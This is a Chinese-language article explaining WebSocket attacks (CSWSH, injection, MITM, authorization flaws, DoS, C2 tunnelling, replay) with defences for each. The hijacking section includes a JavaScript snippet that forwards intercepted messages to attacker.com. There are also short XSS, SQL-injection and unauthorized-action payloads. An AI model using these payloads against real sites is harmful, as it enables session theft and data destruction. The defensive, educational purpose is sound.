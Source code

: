 

### WebSocket安全威胁及攻击技术解析

WebSocket作为一种全双工通信协议，广泛应用于实时交互场景（如聊天、股票行情推送）。然而，其持久化连接特性也引入了独特的安全风险。以下从Web安全视角详细解析WebSocket常见攻击手法及利用方式。

---

#### 一、跨站WebSocket劫持（CSWSH）
**原理**  
攻击者利用用户已认证的会话，通过恶意页面发起未经授权的WebSocket连接，劫持合法通信通道。

**攻击流程**  
1. 用户登录目标站点A，Cookie保存会话凭证。  
2. 用户访问攻击者页面，触发JS代码：  
   ```javascript
   const ws = new WebSocket('ws://vulnerable-site.com/chat');
   ws.onmessage = (e) => { fetch('https://attacker.com/?data=' + btoa(e.data)) };
   ```  
3. 浏览器自动携带Cookie建立WebSocket连接，攻击者窃取实时数据。

**防御**  
- 验证`Origin`和`Sec-WebSocket-Key`头部合法性  
- 在握手阶段嵌入CSRF Token  
- 设置`SameSite=Strict`属性限制Cookie携带

---

#### 二、消息注入攻击
**1. XSS注入**  
**场景**：消息内容未经转义直接插入DOM。  
**利用**：  
```javascript
ws.send("<img src=x onerror='alert(1)'>");
```  
若服务端返回消息时未过滤，触发DOM型XSS。

**2. SQL/NoSQL注入**  
**场景**：消息参数直接拼接至数据库查询。  
```javascript
ws.send(JSON.stringify({ "query": "'; DROP TABLE users--" }));
```

**防御**  
- 输入验证（白名单+长度限制）  
- 使用参数化查询或ORM框架  
- 输出编码（如HTML实体化）

---

#### 三、中间人攻击（MITM）
**风险点**  
- 使用`ws://`协议时数据明文传输  
- SSL/TLS证书未严格验证（自签名、过期证书）

**攻击手法**  
1. ARP欺骗劫持流量  
2. 伪造证书实施SSL剥离攻击  
3. 篡改WebSocket消息内容

**防御**  
- 强制使用`wss://`协议  
- 启用HSTS头（`Strict-Transport-Security`）  
- 证书吊销检查（OCSP Stapling）

---

#### 四、认证与授权缺陷
**1. 握手阶段认证缺失**  
- 未验证连接发起方的身份，导致匿名用户建立连接。

**2. 消息级权限缺失**  
- 未校验用户是否有权执行特定操作（如删除他人消息）。

**案例**  
```javascript
ws.send(JSON.stringify({
  "action": "deleteMessage",
  "messageId": "123",
  "userId": "attacker_id"
}));
```

**防御**  
- 在握手阶段实施会话验证  
- 基于角色的消息处理（RBAC）  
- 服务端校验每一条消息的上下文权限

---

#### 五、拒绝服务攻击（DoS）
**攻击向量**  
1. **连接耗尽**：通过脚本快速创建大量WebSocket连接。  
2. **资源滥用**：发送超大消息（如10MB JSON）导致服务端内存溢出。  
3. **循环消息**：构造自引用消息触发服务端无限循环。

**防御**  
- 限制单个IP连接数（如Nginx配置`limit_conn`）  
- 设置消息大小阈值（如`maxPayloadLength: 1024`）  
- 异步处理耗时操作避免阻塞

---

#### 六、协议滥用与隐蔽通信
**1. 隧道攻击**  
将WebSocket作为C2通道传输恶意指令，绕过传统防火墙检测。  
**特征**：高频次小数据包、Base64编码负载。

**2. 子协议篡改**  
利用未经验证的`Sec-WebSocket-Protocol`头，强制降级至不安全协议。

**检测方法**  
- 监控异常子协议使用（如`soap`、`stomp`）  
- 分析消息流量模式（熵值检测）

---

#### 七、会话固定与重放攻击
**1. 会话固定**  
攻击者诱导用户使用预定义的`WebSocket ID`连接，后续劫持会话。

**2. 消息重放**  
拦截合法消息（如转账请求）重复发送至服务端。

**防御**  
- 动态生成会话标识符  
- 添加时间戳和Nonce校验  
- 关键操作使用一次性Token

---

### 总结与防御框架

| 威胁类型         | 防御策略                                      |
|------------------|---------------------------------------------|
| CSWSH            | Origin校验 + CSRF Token                     |
| 消息注入         | 输入过滤 + 输出编码                         |
| MITM             | 强制wss + 证书强验证                        |
| 权限缺陷         | 双阶段认证 + 消息级RBAC                     |
| DoS              | 资源限制 + 异步队列                         |
| 协议滥用         | 子协议白名单 + 流量审计                     |

通过实施纵深防御策略（如协议加固、输入净化、权限最小化），可有效降低WebSocket安全风险。建议结合OWASP WebSocket安全指南和自动化渗透测试工具（如Burp Suite WebSocket Scanner）进行持续监控。

---

*文档生成时间: 2025-03-13 14:54:07*













